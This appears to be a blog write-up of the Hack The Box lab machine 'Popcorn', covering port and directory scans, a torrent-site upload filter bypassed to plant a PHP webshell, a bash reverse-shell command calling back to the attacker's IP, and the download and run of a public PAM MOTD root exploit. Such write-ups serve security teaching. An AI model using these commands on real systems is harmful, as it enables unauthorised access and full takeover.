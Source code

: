 ```yaml
---
layout: post
title:  "Popcorn"
date:   2023-11-02 22:55:30 -0400
categories: jekyll update
---
```


Popcorn

<img
  src="/assets/popcorrn.png"
  alt="featured image"
  class="featured-image-post"
/>

## nmap
```
└─# nmap -p- 10.10.10.6     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-02 18:53 EDT
Nmap scan report for 10.10.10.6
Host is up (0.052s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 36.97 seconds
```

```
└─# nmap -p 22,80 -sC -sV 10.10.10.6           
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-02 18:56 EDT
Nmap scan report for 10.10.10.6
Host is up (0.048s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3ec81b15211550ec6e63bcc56b807b38 (DSA)
|_  2048 aa1f7921b842f48a38bdb805ef1a074d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.11 seconds
```

## gobuster
```
└─# gobuster dir -u http://10.10.10.6 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --timeout 20s 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.6
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 20s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 177]
/test                 (Status: 200) [Size: 47016]
/torrent              (Status: 301) [Size: 310] [--> http://10.10.10.6/torrent/]
/rename               (Status: 301) [Size: 309] [--> http://10.10.10.6/rename/]
Progress: 28643 / 220561 (12.99%)[ERROR] Get "http://10.10.10.6/AbleFtp": context
```

### 10.10.10.6:80
<img
  src="/assets/popcorn/Pasted image 20231102185842.png"
  alt="featured image"
  class="featured-image-post"
/>

### 10.10.10.6/test
<img
  src="/assets/popcorn/Pasted image 20231102214854.png"
  alt="featured image"
  class="featured-image-post"
/>

### 10.10.10.6/rename
<img
  src="/assets/popcorn/Pasted image 20231102215443.png"
  alt="featured image"
  class="featured-image-post"
/>
### 10.10.10.6/torrent
<img
  src="/assets/popcorn/Pasted image 20231102215613.png"
  alt="featured image"
  class="featured-image-post"
/>

<img
  src="/assets/popcorn/Pasted image 20231102215710.png"
  alt="featured image"
  class="featured-image-post"
/>

After registering an account, I browsed around and found an upload page. I downloaded a legit torrent file and uploaded it.
<img
  src="/assets/popcorn/Pasted image 20231102222727.png"
  alt="featured image"
  class="featured-image-post"
/>
<img
  src="/assets/popcorn/Pasted image 20231102222630.png"
  alt="featured image"
  class="featured-image-post"
/>

After uploading, there is a button to upload a screenshot.
<img
  src="/assets/popcorn/Pasted image 20231102222830.png"
  alt="featured image"
  class="featured-image-post"
/>
<img
  src="/assets/popcorn/Pasted image 20231102222908.png"
  alt="featured image"
  class="featured-image-post"
/>

I chose a random screenshot, this kali  logo and uploaded it.
<img
  src="/assets/popcorn/Pasted image 20231102224231.png"
  alt="featured image"
  class="featured-image-post"
/>

I captured the request in Burp and changed the extension to php and the content to a php webshell. At first I had to play around with Repeater to see which filters were in place, but this way submitted without errors.
<img
  src="/assets/popcorn/Pasted image 20231102224207.png"
  alt="featured image"
  class="featured-image-post"
/>

I refreshed and there is the screenshot.
<img
  src="/assets/popcorn/Pasted image 20231102224533.png"
  alt="featured image"
  class="featured-image-post"
/>


After some guessing I found the image at `/torrent/upload`
<img
  src="/assets/popcorn/Pasted image 20231102225457.png"
  alt="featured image"
  class="featured-image-post"
/>
<img
  src="/assets/popcorn/Pasted image 20231102225543.png"
  alt="featured image"
  class="featured-image-post"
/>
I test out execution with a simple`id` command with curl and its successful:
```
┌──(root💀kali)-[/home/spacemoth/machines/popcorn]
└─# curl http://10.10.10.6/torrent/upload/2becb0265247e56217dcac4f5ff7308699ee0d3e.php?cmd=id      
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Warning: Binary output can mess up your terminal. Use "--output -" to tell 
Warning: curl to output it to your terminal anyway, or consider "--output 
Warning: <FILE>" to save to a file.
```

## Shell

I will start netcat and use this line to get a reverse shell:
```
curl http://10.10.10.6/torrent/upload/2becb0265247e56217dcac4f5ff7308699ee0d3e.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.24/443 0>&1'"
```

```
└─$ nc -lnvp 443 
listening on [any] 443 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.6] 36235
bash: no job control in this shell                                                                                                               
www-data@popcorn:/var/www/torrent/upload$
```

I got the shell and now I will upgrade:
```
python -c 'import pty;pty.spawn("bash")'
```

Obtain user flag:
```
www-data@popcorn:/home$ ls 
ls
george
www-data@popcorn:/home$ cat george
cat george
cat: george: Is a directory
www-data@popcorn:/home$ cd george
cd george
www-data@popcorn:/home/george$ ls
ls
torrenthoster.zip  user.txt
www-data@popcorn:/home/george$ cat user.txt                                      cat user.txt                                                            
3b0************************
```

## PrivEsc

I found `motd.legal-displayed` and knowing this file can lead to code execution I found this exploit after some googling, https://www.exploit-db.com/exploits/14339. I downloaded the exploit and hosted it on my machine:
```
└─$ python2.7 -m SimpleHTTPServer 1337                                  
Serving HTTP on 0.0.0.0 port 1337 ...
```

On victim machine I used `wget` to download it:
```
www-data@popcorn:/tmp$ wget http://10.10.14.24:1337/14339.sh 
wget http://10.10.14.24:1337/14339.sh 
--2023-11-03 05:15:40--  http://10.10.14.24:1337/14339.sh
Connecting to 10.10.14.24:1337... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3042 (3.0K) [text/x-sh]
Saving to: `14339.sh'

100%[======================================>] 3,042       --.-K/s   in 0s      

2023-11-03 05:15:40 (124 MB/s) - `14339.sh' saved [3042/3042]
```

I then chmod the file and ran it, which lead to root:
```
www-data@popcorn:/tmp$ chmod +x 14339.sh
chmod +x 14339.sh
www-data@popcorn:/tmp$ ./14339.sh
./14339.sh
[*] Ubuntu PAM MOTD local root
[*] SSH key set up
[*] spawn ssh
[+] owned: /etc/passwd
[*] spawn ssh
[+] owned: /etc/shadow
[*] SSH key removed
[+] Success! Use password toor to get root
Password: toor

root@popcorn:/tmp# whoami
whoami
root
```

##### Root Flag
```
root@popcorn:/# cd root
cd root
root@popcorn:~# ls
ls
root.txt
root@popcorn:~# cat root.txt
cat root.txt
850*****************************
```
